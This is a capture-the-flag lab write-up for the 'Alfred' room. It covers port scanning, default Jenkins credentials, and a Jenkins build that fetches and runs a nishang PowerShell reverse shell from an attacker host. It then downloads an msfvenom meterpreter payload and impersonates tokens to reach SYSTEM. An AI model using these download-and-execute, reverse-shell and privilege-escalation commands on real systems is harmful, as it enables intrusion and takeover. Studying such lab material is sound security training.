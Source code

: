 # Alfred

### Initial Access

**How many ports are open? (TCP only)**

Scanned the target with nmap and found 3 open TCP ports; 80 HTTP, 3389 RDP and 8080 HTTP 
proxy. 

[Scan results](./alfred.nmap)

**What is the username and password for the log in panel(in the format username:password)**

Navigated to HTTP page (`<TARGET-IP>`) and found memorial for Bruce Wayne and an email address:
`alfred@wayneenterprises.com` 

Found login page on HTTP proxy (`<TARGET-IP>:8080`)

Tried burp suite intruder with alfred as a user aand rockyou.txt as a wordlist but no luck
after 400+ tries. Stopped the attack after ~ 400 attempts and looked for a write up. Found
that default admin credentials worked.

*Note: Always try the easy stuff first, like default admin creds*

**Find a feature of the tool that allows you to execute commands on the underlying system.**

Access to the Jenkins panel lets you create a new build to download and run the nishang 
reverse shell `Invoke-PowerShellTcp.ps1`

`powershell iex (New-Object Net.WebClient).DownloadString('http://<ATTACKER-IP>:<WEBSERVER-PORT>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ATTACKER-IP> -Port <LISTENER-PORT>`

**What is the user.txt flag?**

Navigate to `C:\Users` on the reverse shell, find bruce user's home dir. Go to Desktop to 
find user.txt and view with `type C:\Users\bruce\Desktop\user.txt`

### Switching Shells

Use a meterpreter shell for a more stable connection to the target. Create the payload with
msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

Download the executable to the target as before.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.7.163:8008/alfred.exe','alfred.exe')"`

Start a meterpreter handler in metasploit.

`use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <ATTACKER-IP> set LPORT <LISTENER-PORT> run`

Run `Start-Process "<SHELL-NAME>.exe"` on the target machine to start the meterpreter shell.

**What is the final size of the exe payload that you generated?**

Use `ls -al <SHELL-NAME>.exe` to show the size of the exe in bytes.

### Privilege Escalation

Gain SYSTEM access using token impersonation.

*Note: Pulled from the room, need to cut down/move to another location; Windows privesc 
cheatsheet?*

Windows uses tokens to ensure that accounts have the right privileges to carry out 
particular actions. Account tokens are assigned to an account when users log in or are 
authenticated. This is usually done by LSASS.exe.

This access token consists of user SIDs(security identifier), group SIDs and privileges
amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

1. primary access tokens: those associated with a user account that are generated on log on

2. impersonation tokens: these allow a particular process(or thread in a process) to gain 
access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

1. SecurityAnonymous: current user/client cannot impersonate another user/client

2. SecurityIdentification: current user/client can get the identity and privileges of a 
client, but cannot impersonate the client

3. SecurityImpersonation: current user/client can impersonate the client's security context 
on the local system

4. SecurityDelegation: current user/client can impersonate the client's security context on 
a remote system where the security context is a data structure that contains users' 
relevant security information.

The privileges of an account(which are either given to the account when created or 
inherited from a group) allow a user to carry out particular actions. Here are the most 
commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

**View all privileges using `whoami /priv`**

Commonly abused privileges found.

| Privilege name | Description | State |
|----------------|-------------|-------| 
| SeTakeOwnershipPrivilege | Take ownership of files or other objects | Disabled |
| SeLoadDriverPrivilege | Load and unload device drivers | Disabled |
| SeBackupPrivilege | Back up files and directories | Disabled |
| SeRestorePrivilege | Restore files and directories | Disabled |
| SeDebugPrivilege | Debug programs | Enabled | 
| SeImpersonatePrivilege | Impersonate a client after authentication | Enabled |

**Exploit SeImpersonatePrivilege and SeDebugPrivilege with incognito module**

Load incognito module in metasploit `load incognito`

**Check which tokens are available with `list_tokens -g`**

Run `list_tokens -g` and find that the `BUILTIN\Administrators` token is available. 
Use `impersonate_token "BUILTIN\Administrators"` to impersonate the Administrators token.

**What is the output when you run `getuid`?**

Run `getuid` impersonating the Administrator

Migrate to a process with SYSTEM privileges as the Primary Token of the process is used,
not the impersonated token, to determine what the process can or cannot do so 
impersonating an Adminstrator token may not grant us the permissions of a privileged user.

`migrate <PID>`

**Read the root.txt file at C:\Windows\System32\config**

Drop into a shell and read the file with `type C:\Windows\System32\config\root.txt`

